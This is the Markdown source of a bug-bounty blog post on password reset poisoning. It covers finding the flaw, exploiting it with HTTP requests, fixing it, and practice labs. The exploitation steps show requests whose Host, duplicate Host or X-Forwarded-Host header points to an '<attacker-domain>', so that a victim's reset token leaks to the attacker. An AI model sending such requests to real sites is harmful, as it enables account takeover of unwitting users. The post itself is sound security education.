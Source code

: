 ```yaml
---
layout: "post"
title: "Exploiting Password Reset Poisoning"
date: "2021-11-13"
description: 
authors: ["m8sec"]
categories: ["Web Security"]
tags: ["exploit"]
image: 
    path: "/assets/img/categories/webapp.png"
pin: false
---
```


To date, one of my most lucrative bug bounties came from a password reset poisoning vulnerability. This post walks through the process of finding, exploiting, and fixing this bug to help you earn a max payout in your own disclosures!


# Overview

Password reset poisoning is a header based attack, where an attacker can manipulate the URL of a password reset link. Through adding or modifying HTTP request header values during an applications password reset process, it may be possible to overwrite the domain of the link sent to the user:
```text
Hi,
Click the link below to reset your password:
https://<attacker-domain>/reset?token=123456789
```

Once clicked, the reset token is relayed to an attacker-controlled domain — resulting in account takeover.

![](/assets/img/posts/password-reset-poisoning/1.png){: .shadow}


## Exploitation

1. Navigate to the web applications “Password Reset” page.

2. Enter the name, username, or email of the target users account.

3. Use a web application proxy (BurpSuite, OWASP-ZAP, etc) to intercept the request and modify the Host: header value to an attacker controlled address:
    * *Dont have your own server? Burp Collaborator links can help!*
```
POST /login/password-reset HTTP/1.1
Host: <attacker-domain>
...
{"email":"target-user@company.com"}
```

4. The user will receive a legitimate password reset email from the site. However, the link containing the secret reset token will show our modified header value:
```
https://<attacker-domain>/reset?token=123456789
```

5. Once clicked by the user, the attacker can intercept the token and replay its value on the target application to successfully reset the victims password for full account takeover!

![](/assets/img/posts/password-reset-poisoning/2.png){: .shadow}
*Workflow created by [PortSwigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)*


## Advanced Exploitation
*Host header not working? Try these techniques*

### Double Host Header

Depending on how the server reacts to duplicate Host headers in the HTTP request, the malicious input may take precedence over the default:
```
POST /login/password-reset HTTP/1.1
Host: example.com
Host: <attacker-domain>
...
```

### Test Override Headers
Override headers such as `X-Forwarded-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, and `X-Host` can sometimes work to replace the Host header value— resulting in successful exploitation:
```
POST /login/password-reset HTTP/1.1
Host: example.com
X-Forwarded-Host: <attacker-domain>
...
```


## Remediation

### Why does this happen?
Password reset poisoning can occur when a website relies on header values to direct traffic or craft page links. If left unchecked, an attacker can inject their own values and modify the intended behavior of the application.

### How to fix it?

The easiest approach, is avoid using header values to define site navigation. Request headers are not protected fields and can be modified by the user to inject malicious inputs. Additionally, performing `Host` header validation and removing support for override headers such as `X-Forwarded-Host` can be good mitigating strategies.

For more prevention methods, checkout the [Preventing HTTP Host header attacks](https://portswigger.net/web-security/host-header) section of [this](https://portswigger.net/web-security/host-header) article.


## Practice Resources

Want to try this technique on your own? Checkout:
* PortSwigger Lab: [Basic Password Reset Poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning).
* PortSwigger Lab: [Password Reset Poisoning via Middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware).
* PortSwigger Lab: [Password Reset Poisoning via Dangling Markup](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup).

